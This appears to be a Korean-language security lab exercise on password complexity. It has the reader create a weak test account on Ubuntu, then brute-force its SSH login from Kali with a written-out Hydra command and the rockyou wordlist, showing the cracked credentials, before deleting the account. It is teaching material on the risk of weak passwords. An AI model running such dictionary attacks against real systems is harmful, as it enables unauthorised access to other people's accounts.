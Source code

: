 ## 패스워드 복잡성 설정

취약한 패스워드를 허용하면 어떤 문제가 발생할 수 있는지 알아봅시다.

### 실습 1 : SSH를 통한 사전 대입 공격
1. [우분투] 사용자명이 `aaa`고 패스워드가 `111111`인 계정 생성(또는 기존 계정의 패스워드를 `111111`으로 변경)
```
cju@wooam:~$ sudo adduser aaa
```

2. [칼리] Hydra 도구를 사용한 사전 대입 공격
```
$ hydra -l aaa -P /usr/share/wordlists/rockyou.txt.gz ssh://192.168.202.xxx
```

3. [칼리] 패스워드가 보인다!
```
[22][ssh] host: 192.168.202.128   login: aaa   password: 111111
```

4. [칼리] (참고) 사전 파일 확인
```
$ vi /usr/share/wordlists/rockyou.txt.gz
```

>> (참고) 우분투 기본 패스워드 정책 확인 : `vi /etc/pam.d/common-passwd`

### 복구
1. [우분투] (필요시) 생성한 계정 삭제
```
cju@wooam:~$ sudo deluser --remove-all-files aaa
```